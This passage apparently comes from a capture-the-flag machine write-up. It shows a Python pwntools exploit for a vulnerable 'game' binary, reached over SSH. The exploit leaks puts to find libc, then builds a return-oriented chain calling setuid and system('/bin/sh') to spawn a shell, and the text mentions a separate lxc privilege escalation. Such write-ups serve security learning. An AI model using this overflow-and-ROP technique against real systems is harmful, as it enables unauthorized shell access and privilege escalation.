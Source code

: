 ```python
    payload += p64(e.plt["puts"])
    payload += p64(e.symbols["game"])

    r.recvline()
    r.sendline(payload)

    r.recvline()

    PUTS = u64(str(r.recv(6)).ljust(8, "\x00"))
    libc.address = PUTS - libc.symbols["puts"]

    log.info("PUTS      : %s" % hex(PUTS))
    log.info("LIBC      : %s" % hex(libc.address))

    payload = "A"*208
    payload += p64(0x600500)
    payload += p64(POPRDI)
    payload += p64(0)
    payload += p64(libc.symbols['setuid'])
    payload += p64(POPRDI)
    payload += p64(next(libc.search("/bin/sh")))
    payload += p64(POPRSI15)
    payload += p64(0)
    payload += p64(0)
    payload += p64(libc.symbols["system"])

    r.recvuntil("? \n")
    r.sendline(payload)
    r.interactive()

    return

if __name__ == "__main__":
    e = ELF("game")
    libc = ELF("libc.so.6")

    r = ssh(host=HOST, port=PORT, user="jigsaw", keyfile="keyz")
    r.connected()
    s = r.run("game")
    exploit(s)
```

__NOTE__: This exploit only spwan shell but not as root. If you end up writing the exploit that gives you shell with root please let me know :-)

I ended up giving this away this path of rooting this machine. Instead I rooted the machine the other way.

Check out the [Privilege escalation with lxc](#privilege-escalation-with-lxc) section to know how I rooted the machine.

***
